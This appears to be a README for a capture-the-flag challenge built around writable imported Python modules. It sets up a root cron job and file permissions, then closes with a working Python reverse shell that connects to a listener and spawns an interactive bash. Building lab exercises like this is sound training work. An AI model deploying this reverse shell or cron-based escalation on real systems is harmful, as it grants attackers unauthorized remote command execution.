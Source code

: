 # EncryptEdge RCSCTF

This repository contains code for the EncryptEdge RCSCTF Challenge No.3

## Table of Contents
- [Introduction](#introduction)
- [Installation](#installation)
- [Usage](#usage)

## Introduction
This particular challenge is designed to showcase various Python libraries and demonstrate system administration tasks such as creating cron jobs and managing file permissions.

This challenge is based on the "Write Permissions on Imported Python Module"

# Installation
> To get started with the challenge, follow these steps:

1. Clone the repository:
    ```shell
    git clone https://github.com/your-username/EncryptEdge-RCSCTF.git
    ```

2. Install the required Python libraries:
    ```
    pip install -r requirements.txt
    ```

# Usage

## Create a VM in any type-2 hyperviser (I used VMWare Workstation)
> I used Ubuntu 22.04 LTS ISO image
> I used VMWare Workstation

## 

## Checking Default Python Libraries
> To check the default Python libraries, run the following command:
```
python3 -c 'import sys; print("\n".join(sys.path))'
```

## Create a System-wide Cronjob
> To create a system-wide cronjob that runs every 2 minutes, edit the /etc/crontab file:

```
sudo nano /etc/crontab
```

> Add the following line to run the Python script every 2 minutes:
```
*/2 * * * * /usr/bin/python3 /home/xavir/Fishy.py
```

## Manage Access to Fishy.py
> To give only read access to Fishy.py to the user xavir, use the chmod and chown commands:

```
chown root:xavir /path/to/Fishy.py
chmod 640 /path/to/Fishy.py
```

## View System-wide Cronjob
> To view the system-wide cronjob, use the following command:

```
cat /etc/crontab
```

## Implementing a Reverse Shell in Python
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 9001))
dup2(s.fileno(), 0)
dup2(s.fileno(), 1)
dup2(s.fileno(), 2)
run(["/bin/bash", "-i"])
```